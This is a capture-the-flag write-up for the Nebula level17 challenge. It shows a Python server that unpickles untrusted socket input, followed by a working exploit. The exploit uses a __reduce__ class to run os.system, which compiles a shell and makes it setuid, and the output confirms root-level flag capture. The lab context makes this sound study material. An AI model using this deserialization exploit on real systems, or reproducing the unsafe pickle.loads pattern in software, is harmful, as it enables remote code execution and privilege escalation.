With the description we are provided with the source code of a small Python program:

```perl level17.py
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

With this level, it was immediately obvious that user input was being used to unpickle. This is dangerous as user supplied code could be executed when the unpickle occurs. So, my plan was to write a simple class with a `__reduce__` method to pickle and send that over the socket that this code is listening on.

So, to solve level17:

```bash
level17@nebula:/var/tmp/flag17-prep$ cat sploit.py
from netcat import Netcat
import pickle
import os

command = """gcc /var/tmp/shell.c -o /var/tmp/flag17; chmod 4777 /var/tmp/flag17"""

# setup the pickle
class DoCmd(object):
    def __reduce__(self):
        return (os.system, ('{cmd}'.format(cmd = command),))

nc =  Netcat('127.0.0.1', 10007)
nc.read()
nc.write(pickle.dumps(DoCmd()))
nc.close()

level17@nebula:/var/tmp/flag17-prep$ python sploit.py
level17@nebula:/var/tmp/flag17-prep$ /var/tmp/flag17
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
